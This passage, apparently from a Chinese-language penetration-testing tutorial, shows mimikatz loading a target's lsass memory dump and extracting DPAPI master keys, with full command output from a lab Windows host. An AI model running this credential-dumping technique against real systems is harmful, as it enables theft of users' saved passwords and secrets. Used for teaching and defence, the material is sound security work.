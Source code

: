 使用 mimikatz 加载从目标机的 lsass.dmp 转储文件；

并通过对应的 MasterKey 文件名（guidMasterKey/GUID 值）找到对应的 MasterKey 值：

```console
mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'

mimikatz # sekurlsa::dpapi
Opening : 'lsass.dmp' file for minidump...

Authentication Id : 0 ; 439901 (00000000:0006b65d)
Session           : Interactive from 1
User Name         : test
Domain            : DESKTOP-TEST
Logon Server      : DESKTOP-TEST
Logon Time        : 2023-11-24 14:26:41
SID               : S-1-5-21-102229053-337446436-1419803206-1001
  [00000000]
  * GUID      : {273001c6-c88c-422a-aecb-daa6f950f8d0}
  * Time      : 2023-11-24 14:51:01
  * MasterKey : 9458e389d675c03e3134abca123a5f97b0344db9ec7eb77ca65e962ed238d3d9d62ba12e9b227587df8f430762790758c7a1dcf8f0baad587c0301305e088205
  * sha1(key) : a00423233ef319472dd71c7356322f7b00b29e13
  [00000001]
  * GUID      : {52c3460d-2e8b-4764-957c-57185d4d62b2}
  * Time      : 2023-11-24 15:30:06
  * MasterKey : 6beeec39772b606a7ac31f190d3c5cab56e00bd0bef7fe898cc826b12930a402b3163877d3a4d9aadafc2457a31ab2b35522b711c2512156db940ddf350c27f7
  * sha1(key) : b53ebc9462b9cf6284f116b46d3a869091cc398f


Authentication Id : 0 ; 439845 (00000000:0006b625)
Session           : Interactive from 1
User Name         : test
Domain            : DESKTOP-TEST
Logon Server      : DESKTOP-TEST
Logon Time        : 2023-11-24 14:26:41
SID               : S-1-5-21-102229053-337446436-1419803206-1001

......

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : DESKTOP-TEST$
Domain            : WORKGROUP
Logon Server      : (null)
Logon Time        : 2023-11-24 14:26:34
SID               : S-1-5-18
  [00000000]
  * GUID      : {806436a2-285b-4457-9634-9fe864996faa}
  * Time      : 2023-11-24 15:29:23
  * MasterKey : a399f4fb6ab9caed09407c4adf12a83ab52fd63ff8edf5c2db95daf4178bab8755fd29f876c878fcbb7140692222d3c7fd4306091b8215a7bf461237bb832d60
  * sha1(key) : 434dba543e494c255867a7676fd6b05d958cf950
  [00000001]
  * GUID      : {4a44a108-4a52-462e-873d-37a342a538f7}
  * Time      : 2023-11-24 14:29:57
  * MasterKey : dcd5d78081c7e5c5889ca8dbb90a848c6bc55fa68c5a3f0706367aed9f80e8c55842f1cd8af826e2412fbed6d506959c61a4402b259fafc7aad404042ded5f78
  * sha1(key) : ad78f0a094c61142ab740c84f8bcc04bc1de3ae4
  [00000002]
  * GUID      : {39272925-c391-4d0d-9c03-6040edc70d70}
  * Time      : 2023-11-24 14:29:07
```